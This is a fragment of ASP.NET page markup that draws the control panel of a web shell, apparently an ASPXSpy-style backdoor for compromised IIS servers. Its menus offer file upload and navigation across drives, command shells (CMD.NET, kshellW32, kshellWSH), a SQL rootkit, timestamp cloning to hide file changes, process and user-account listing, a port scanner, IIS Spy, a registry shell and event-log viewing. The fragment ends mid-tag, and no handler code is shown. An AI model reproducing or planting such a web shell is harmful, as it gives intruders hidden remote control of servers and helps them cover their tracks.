 <table width="100%"  border="0" align="center">
  <tr>
  	<td>Currently Dir:</td> <td><font color=red><%=url%></font></td>
  </tr>
  <tr>
    <td width="10%">Operate:</td>
    <td width="90%"><a href="?action=new&src=<%=server.UrlEncode(url)%>" title="New file or directory">New</a> - 
      <%if session("cutboard")<>"" then%>
      <a href="?action=paste&src=<%=server.UrlEncode(url)%>" title="you can paste">Paste</a> - 
      <%else%>
	Paste - 
<%end if%>
<a href="?action=upfile&src=<%=server.UrlEncode(url)%>" title="Upload file">UpLoad</a> - <a href="?action=goto&src=" & <%=server.MapPath(".")%> title="Go to this file's directory">GoBackDir </a> - <a href="?action=logout" title="Exit" ><font color="red">Quit</font></a>
</td>
  </tr>
  <tr>
    <td>
	Go to: </td>
    <td>
<%
dim i as integer
for i =0 to Directory.GetLogicalDrives().length-1
 	response.Write("<a href='?action=goto&src=" & Directory.GetLogicalDrives(i) & "'>" & Directory.GetLogicalDrives(i) & " </a>")
next
%>

</td>
<td align="Left">
<%
response.Write("IP:<font color=red>" & Request.ServerVariables("REMOTE_ADDR")&"</font>")
%>
</td>
  </tr>

  <tr>
    <td>Tool:</td>
    <td><a href="?action=sqlrootkit" >SqlRootKit.NET </a> - <a href="?action=cmd" >CMD.NET</a> - <a href="?action=cmdw32" >kshellW32</a> - <a href="?action=cmdwsh" >kshellWSH</a> - <a href="?action=clonetime&src=<%=server.UrlEncode(url)%>" >CloneTime</a> - <a href="?action=information" >System Info</a> - <a href="?action=pro1" >List Processes 1</a> - <a href="?action=pro2" >List Processes 2</a></td>    
  </tr>
  <tr>
    <td> </td>
    <td><a href="?action=user" >List User Accounts</a> - <a href="?action=auser" >IIS Anonymous User</a>- <a href="?action=scan" >Port Scanner</a> - <a href="?action=iisspy" >IIS Spy</a> - <a href="?action=regshell" >Registry Shell</a> - <a href="?action=applog" >Application Event Log </a> - <a href="?action=syslog" >System Log</a></td>
  </tr>
</table>
<hr>
<table width="100%"  border="0" align="center">
	<tr>
	<td width="40%"><strong>Name</strong></td>
	<td width="15%"><strong>Size</strong></td>
	<td width="20%"><strong>ModifyTime</strong></td>
	<td width="25%"><strong>Operate</strong></td>
	</tr>
      <tr>
        <td><%